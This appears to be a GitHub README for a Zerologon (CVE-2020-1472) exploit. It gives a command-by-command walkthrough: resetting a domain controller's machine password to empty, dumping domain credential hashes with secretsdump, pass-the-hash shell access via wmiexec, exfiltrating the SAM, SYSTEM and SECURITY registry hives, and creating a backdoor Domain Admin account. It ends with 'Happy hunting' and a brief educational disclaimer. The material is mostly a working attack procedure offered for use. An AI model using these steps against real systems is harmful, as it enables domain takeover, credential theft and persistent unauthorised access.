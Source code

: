 # zerologon
zerologon script to exploit CVE-2020-1472 CVSS 10/10
Exploit code based on https://www.secura.com/blog/zero-logon and https://github.com/SecuraBV/CVE-2020-1472. Original research and scanner by Secura, modifications by RiskSense Inc. https://github.com/risksense/zerologon

To exploit, clear out any previous Impacket installs you have and install Impacket from https://github.com/SecureAuthCorp/impacket/commit/b867b21 or newer.

`apt update

apt remove --purge impacket-scripts python3-impacket
apt autoremove

git clone https://github.com/rthalley/dnspython.git 
sudo python3 setup.py install
cd ..
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
sudo python3 setup.py install
git clone`

Then, do:

`python3 set_empty_pw DC_NETBIOS_NAME DC_IP_ADDR`

If that's successful you will then be able to:

`sudo secretsdump.py -just-dc domain/hostname\$@ip`

pressing "Enter" on prompt for password will pass you through,
which should get you Domain Admin hash. After you have that, wmiexec.py to the target DC with a credential from the secretsdump 

`wmiexec.py domain/Administrator@ip -hashes hash`

and do

`reg save HKLM\SYSTEM system.save\
get system.save\
del /f system.save\`


`reg save HKLM\SAM sam.save`  
`get sam.save`  
`del /f sam.save`  


`reg save HKLM\SECURITY security.save  
get security.save  
del /f security.save`  

And then you can create a new Admin account just in case, 

`net user myadmin Hello1234 /ADD /DOMAIN`

and add the new account to domain admins group to obtain full privilages,

`net group "Domain Admins" myadmin /ADD /DOMAIN`

and probably `exit` now from C:\>

Then you can run

`sudo secretsdump.py -sam sam.save -system system.save -security security.save LOCAL`

And that should show you the original NT hash of the machine account. You can then re-install that original machine account hash to the domain by

`python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR ORIG_NT_HASH`

Reinstalling the original hash is necessary for the DC to continue operating normally.

And just to make sure if the restoration process worked,

`sudo secretsdump.py -just-dc domain/hostname\$@ip`

and prressing "Enter" at password prompt won't work anymore.

And we're done here.

Happy hunting.

DISCLAIMER: This is purely for educational purposes, I will not be held responsible for any actions or their consequences
HACKING INTO SOMEONE ELSE'S DEVICE IS ILLEGAL AND IS PUNISHABLE BY LAW.
